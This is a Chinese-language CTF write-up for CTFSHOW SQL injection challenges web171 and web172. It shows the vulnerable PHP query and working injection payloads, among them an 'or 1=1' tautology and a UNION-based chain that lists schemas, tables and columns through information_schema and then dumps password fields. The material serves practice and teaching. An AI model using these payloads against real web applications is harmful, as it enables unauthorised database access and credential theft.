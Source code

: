+++
date = '2025-01-22T00:27:55+08:00'
title = 'CTFSHOW-SQL注入-Writeup'
categories = ["Writeup"]
tags = ["writeup", "ctf", "Web"]

+++



#### **无过滤注入**（对输出内容进行过滤）

#### web171

```
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

flag是存在于username为flag的用户的数据中，我们只需要通过

```
1' or 1=1 --+
```

即可输出所有用户数据



#### web172

相比上一题，这题增加了过滤

```
//检查结果是否有flag
if($row->username!=='flag'){
      $ret['msg']='查询成功';
    }
```

方法一: 联合查询

因为联合查询只会显示password

```
api/?id=1' union select 1,(select group_concat(schema_name) from information_schema.schemata),database()%23

/api/?id=1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='ctfshow_web'),database()%23

/api/?id=1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='ctfshow_web' and table_name='ctfshow_user'),database()%23

//看到有3列 id,username,password

/api/?id=1' union select 1,(select group_concat(password) from ctfshow_web.ctfshow_user),database()%23

//查询password发现没有flag

//查另一个表 ctfshow_user2

/api/?id=1' union select 1,(select group_concat(password) from ctfshow_web.ctfshow_user2),database()%23

//看到flag
```
